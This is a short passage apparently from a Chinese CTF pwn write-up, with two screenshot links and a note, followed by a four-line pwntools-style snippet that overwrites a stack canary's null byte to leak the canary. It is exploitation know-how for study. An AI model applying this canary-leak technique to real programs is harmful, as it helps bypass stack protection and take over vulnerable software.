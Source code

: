 [![](assets/1706146504-6ec856b86102de3217ff41832ca7234b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233651-e5cf3108-b872-1.png)

[![](assets/1706146504-ea463d9a29ea41207181f3ad34f8f2bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233656-e89afa34-b872-1.png)  
这里直接覆盖 00 字节然后泄露 canary

```bash
s('a'*0x19)
r(0x18+6)
canary=u64(r(8))-0x61
leak('canary ',canary)
```
